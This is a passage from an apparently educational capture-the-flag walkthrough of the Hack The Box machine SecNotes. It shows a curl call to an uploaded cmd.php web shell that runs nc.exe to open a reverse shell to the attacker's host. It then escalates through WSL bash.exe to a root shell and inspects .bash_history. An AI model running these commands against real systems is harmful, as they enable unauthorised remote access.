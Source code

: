 Now we can interact with the files we uploaded to get a reverse shell:
```shell
# Start nc listener on Kali
nc -lvnp 8080

# Interact with the files we uploaded to trigger reverse shell
curl http://10.129.143.191:8808/cmd.php?cmd=nc.exe+-e+cmd+10.10.14.206+8080
 ```
After using curl, we will get a response in our nc listener, granting us a shell as the user tyler:
```shell
listening on [any] 8080 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.143.191] 51961
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
 ```
### User Flag
Now we can get the user.txt flag:
```shell
type C:\Users\tyler\Desktop\user.txt
```
# Privilege Escalation
### bash.exe and discovering credentials inside bash_history file
On the desktop of the user tyler, we found a file called bash.lnk.

We also found many indicators of Ubuntu being installed on the machine when enumerating directories.

Knowing this, we can try to find bash.exe using the following command:
```shell
where /R c:\ bash.exe
```
The results after running the command above led us to the following file:
```shell
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```
We can now run bash.exe and get shell as root on the Ubuntu system:
```shell
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe

# Now we got shell as Ubuntu root, upgrade shell with this command
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Enumerating the Ubuntu system, we found some SMB credentials when checking the file .bash_history:
```shell
cat .bash_history

cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
```